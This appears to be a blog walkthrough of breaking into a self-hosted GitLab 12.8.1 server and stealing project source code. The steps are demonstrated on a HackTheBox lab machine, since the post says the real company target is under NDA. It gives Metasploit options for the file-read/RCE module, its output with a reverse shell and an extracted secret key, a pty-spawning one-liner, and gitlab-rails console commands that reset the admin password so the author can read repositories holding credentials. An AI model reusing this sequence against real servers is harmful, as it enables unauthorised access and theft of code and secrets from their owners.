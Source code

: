 ```yaml
---
layout: default
---
```


### Steal project Source Code in 60 seconds

----------

![title](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/title.jpg)

----------

The journey starts with Company Gitlab CI with open register functional that i got from the rsource company list , Gitlab is self hosted on barametal hosting. The Current version of the gitlab-ce is vulnerable to LFI and RCE exploiting the RCE and getting initial shell in a server , Changing the admin account with github-rails console and login as him on gitlab. Got the private credentials. keys in a project-repo.

For notes used test env as HTB Machine - Laboratory because real env under NDA.

####  Gitlab CI resource

And i can see that Gitlab is hosted. I saw open Register function and Try do it!

----------

![register](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/register.jpg)

----------

Now i registered myself as oleksii and logged in

----------

![login](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/login.jpg)

----------

Didn’t see anything good and juicy then i just go to `https://gitlab.site.io/help`

----------

![version](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/version.jpg)

----------

So its 12.8.1 , so searched a bit about it on google and got so many CVEs. And on rapid7.com site saw info about vulnerabilities, it was disclosed few months ago (Created 12/10/2020) and was about LFI & RCE. The RCE only affects versions 12.4.0 and above when the vulnerable `experimentation_subject_id` cookie was introduced. Tested on GitLab 12.8.1 and 12.4.0.

This picture in Company Gitlab CI says a lot:)

----------

![asap](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/asap.jpg#center)

----------

#### RCE in the gitlab

Now i can that i exploitetion RCE using msfconsole tool `https://www.rapid7.com/db/modules/exploit/multi/http/gitlab_file_read_rce` because exploit was development and added it to exploit list. 

```
msf6 exploit(multi/http/gitlab_file_read_rce) > use exploit/multi/http/gitlab_file_read_rce
msf6 exploit(multi/http/gitlab_file_read_rce) > show options 

Module options (exploit/multi/http/gitlab_file_read_rce):

   Name             Current Setting                                               
   ----             ---------------                                               
   USERNAME         oleksii@test.test                                             
   PASSWORD         oleksii@test.test                                             
   RHOSTS           10.10.10.*                                                         
   RPORT            443                                                           
   SECRETS_PATH     /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml  
   TARGETURI        /users/sign_in                                                
   VHOST            gitlab.site.io                                                

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.*       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

Exploitation RCE vulnerability: 

```
[*] Started reverse TCP handler on 10.10.14.**:2222 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Logged in to user oleksii
[*] Created project /oleksii/irUhEXC3
[*] Created project /oleksii/Dq5g60ow
[*] Created issue /oleksii/irUhEXC3/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/root/.msf4/loot/20210102160557_default_10.10.10.*_gitlab.secrets_454778.txt'
[+] Extracted secret_key_base 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
[*] NOTE: Setting the SECRET_KEY_BASE option with the above value will skip this arbitrary file read
[*] Attempting to delete project /oleksii/irUhEXC3
[*] Deleted project /oleksii/irUhEXC3
[*] Attempting to delete project /oleksii/Dq5g60ow
[*] Deleted project /oleksii/Dq5g60ow
[*] Command shell session 3 opened (10.10.14.*:2222 -> 10.10.10.*:50878) at 2021-01-02 16:06:02 -0500

ls -la
total 8
drwx------ 2 git root 4096 Jul  2  2020 .
drwxr-xr-x 9 git root 4096 Jan  2 20:41 ..
python3 -c 'import pty; pty.spawn("/bin/sh")'

$ls -la
drwx------ 2 git root 4096 Jul  2  2020 .
drwxr-xr-x 9 git root 4096 Jan  2 20:41 ..

```

Often during pen tests you may obtain a shell without having tty, yet wish to interact further with the system. Here are some commands which will allow you to spawn a tty shell. Obviously some of this will depend on the system environment and installed packages.

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

#### Resetting admin password

Now since the gitlab is installed i can spawn a gitlab-rails console and reset the admin password , and check who is admin. Resetting admin password offical document link `https://docs.gitlab.com/12.10/ee/security/reset_root_password.html`

Used command from this doc I could reset admin password. Start a Ruby on Rails console with this command:
```
 gitlab-rails console -e production
```
Wait until the console has loaded.

There are multiple ways to find your user. You can search for email or username.
```
  user = User.where(id: 1).first
```
Found Gitlab admin user:

```
irb(main):008:0> user = User.where(id: 1).first
user = User.where(id: 1).first
=> #<User id:1 @dexter>
```

or

Other type get username and email without Gitlab authentification is use api `https://gitlab.site.io/api/v4/users/1`

```
{
  "id": 1,
  "name": "Dexter McPherson",
  "username": "dexter",
  "state": "active",
  "avatar_url": "http://gitlab.site.iouploads/-/system/user/avatar/1/avatar.png",
  "web_url": "http://gitlab.site.io/dexter",
  "created_at": "2020-07-02T18:02:18.859Z",
  "bio": "",
  "location": "",
  "public_email": "",
  "skype": "",
  "linkedin": "",
  "twitter": "",
  "website_url": "",
  "organization": ""
}
```

Now you can change your password:

```
 user.password = 'secret_pass'
 user.password_confirmation = 'secret_pass'
```

It’s important that you change both password and password_confirmation to make it work.

Don’t forget to save the changes.

```
 user.save!
```
Exit the console and try to login with your new password.

#### Login as admin on gitlab

Now can login as admin - dexter : secret_pass and can see all repos with credentials and keys. 

So now see how can steal project Source code in 60 seconds because I think If you repeat all command from this notes then spend no more than 60 second. 

 